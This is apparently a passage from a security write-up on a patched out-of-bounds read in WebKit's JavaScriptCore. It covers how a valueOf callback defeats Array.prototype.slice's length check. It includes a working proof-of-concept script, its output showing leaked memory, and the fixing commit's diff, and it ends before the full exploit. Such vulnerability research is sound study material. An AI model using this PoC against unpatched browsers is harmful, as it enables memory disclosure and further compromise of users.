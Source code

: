 According to the conversion rules, if an object has a callable property `valueOf`, it will be called and the return value will be used if it is a primitive value. So, if we change the length using `valueof` function in one of the parameters, `.slice` still uses the old length value, So memcpy will now result in out-of-bound access.

Now let us see what this looks like in action.

```javascript
var a = [];
for (var i = 0; i < 100; i++) a.push(i + 1.23);
var b = a.slice(0, {
  valueOf: function () {
    a.length = 0;
    b = [{}, 1.23];
    return 5;
  },
});
print(b);
```

The expected output should be an array with undefined values. But...

```shell
spektre@skream:~/webkit$ ./WebKitBuild/Debug/bin/jsc poc.js
1.23,2.23,1.5488838078e-314,6.365987374e-314,6.94548287109343e-310
```

Here we abused the JS Type Conversions while calculating the 'begin' and 'end' variables during the fast path. During the conversion, valueOf method is executed, the length is set to 0, and the ArrayProtoSlice still uses the old length value which resulted in an Out-Of-Bounds read
We can also use this not only to leak values but also to inject values as well.

Now let us take a look at the commit(650552a) where this bug was patched.

```diff
diff --git a/Source/JavaScriptCore/runtime/ArrayPrototype.cpp b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp
index cfdd7fceb7f47..08a6ec991afef 100644
--- a/Source/JavaScriptCore/runtime/ArrayPrototype.cpp
+++ b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp
@@ -863,7 +863,7 @@ EncodedJSValue JSC_HOST_CALL arrayProtoFuncSlice(ExecState* exec)
     if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
         return JSValue::encode(jsUndefined());
 
-    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))) {
+    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj) && length == getLength(exec, thisObj))) {
         if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
             return JSValue::encode(result);
     }
```
Here the patch adds an additional check for the length of the source array before calling fastSlice.

Before we get into details of the exploit, Here are a few things you need to know that might help you understand the exploit better.
